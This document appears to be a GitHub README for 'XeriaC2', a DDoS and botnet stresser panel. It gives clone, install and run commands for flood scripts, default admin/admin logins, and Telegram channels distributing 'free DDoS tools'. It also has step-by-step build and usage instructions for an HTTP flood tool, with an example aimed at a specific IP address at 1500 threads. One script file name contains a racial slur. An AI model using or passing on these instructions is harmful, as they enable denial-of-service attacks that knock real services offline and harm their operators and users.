 ## Setup/Install
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

node auto_install_modules.js 404.js HTTP-NIGGA,js BYPASS.js holdv2.js Tlsv1.js

python xeriac2.py

## Login 
Username : admin
Password : admin

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
